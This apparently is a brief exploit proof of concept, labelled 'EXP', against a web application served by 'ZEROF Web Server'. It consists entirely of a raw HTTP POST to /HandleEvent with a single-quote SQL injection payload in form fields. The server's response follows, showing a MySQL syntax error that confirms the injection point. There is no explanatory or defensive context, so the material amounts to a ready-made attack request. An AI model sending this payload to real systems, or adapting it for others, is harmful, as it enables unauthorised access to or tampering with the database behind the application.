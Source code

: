 EXP
---

    POST /HandleEvent HTTP/1.1
    Host: zerof
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
    Accept: */*
    Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 126

    Ajax=1&IsEvent=1&Obj=O4F&Evt=click&this=O4F&"_fp_=_S_ID=CteTYLjmYw108029DC1&O33=%020%02%02'&O37=%020%02%02fff"&_seq_=2&_uo_=O

    HTTP/1.1 200 OK
    Connection: close
    Content-Type: text/html; charset=utf-8
    Content-Length: 209
    Date: Wed, 07 Apr 2021 10:33:44 GMT
    Server: ZEROF Web Server

    try{_rsov_(O33,0);_rsov_(O37,0);}finally{alert("#42000You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')' at line 1.");}